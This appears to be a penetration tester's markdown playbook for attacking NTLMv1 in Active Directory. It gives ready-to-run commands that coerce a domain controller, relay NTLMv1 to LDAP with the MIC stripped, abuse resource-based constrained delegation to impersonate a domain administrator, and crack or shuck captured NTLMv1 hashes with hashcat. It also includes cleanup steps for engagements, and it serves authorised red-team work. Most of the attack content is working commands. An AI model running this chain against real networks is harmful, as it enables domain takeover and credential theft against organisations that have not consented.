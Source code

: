 # NTLMv1

## Relaying NTLMv1

### LDAP

Its not possible to relay SMB connections to LDAP(S) unless the Message Integrity Code (MIC) is removed. As NTLMv1 does not support the MIC it is therefor possible to relay NTLMv1 coerced from SMB to LDAP(S)

___

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- Target Domain Controller is not Windows Server 2025 (Default LDAP Signing and Binding)

#### LDAP Signing and Channel Binding
- LDAP Signing is enforced: Relay -> ```ldaps://```
- LDAP Signing is not enforced but channel binding is: Relay -> ```ldap://``` (Impacket uses StartTLS)
- **Note**: NTLMv1 does not support channel binding

#### Optional Requirements (Depends on attack vector)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Owned Computer -> RBCD -> Domain Administrator

- Credential material for owned machine account
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

___
#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```python
# if MAQ -gt 0
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access --no-dump --no-da --no-acl

# if using Owned Computer
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access --escalate-user "MACHINE$" --delegate-access --no-dump --no-da --no-acl
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```
___
#### Cleanup

- The system we coerce from has the ```msDs-AllowedToActOnBehalfOfOtherIdentity``` attribute modified to the created machine account. Ensure this is removed on engagements.
- Ensure the created machine account is removed at the end of the engagement.

```powershell
# Run in elevated PowerShell

# Clear msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-ADComputer -Identity "DC01$" | ForEach-Object { Set-ADObject -Identity $_.DistinguishedName -Clear "msDS-AllowedToActOnBehalfOfOtherIdentity" }

# Remove Created Computer Account (If used MAQ method)
Remove-ADComputer -Identity "WSW01$"
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```